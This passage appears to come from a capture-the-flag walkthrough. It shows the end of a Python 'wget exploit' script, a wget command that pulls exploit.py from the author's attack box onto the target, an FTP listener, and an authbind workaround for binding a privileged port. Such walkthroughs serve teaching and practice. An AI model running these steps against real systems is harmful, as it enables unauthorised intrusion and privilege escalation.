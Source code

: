 ```
else:
   print "FTP is down :( Exiting."
   exit(1)

print "Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT

handler.serve_forever()
```

I transferred exploit.py to target host, first creating a python http server to host the file.
```
wget http://10.10.14.29/exploit.py
```

On my box I started an FTP listener
```
python -m pyftpdlib --port=21
```

Running the exploit threw an error: "socket.error: [Errno 99] Cannot assign requested address". 

![image](assets/82740089-7751a400-9d13-11ea-87e5-8c91f8a2b7c1.png)

There is a workaround using [Authbind](https://manpages.ubuntu.com/manpages/xenial/man1/authbind.1.html) which allows binding sockets to privileged ports without root and this worked.

```
authbind python ./exploit.py
```
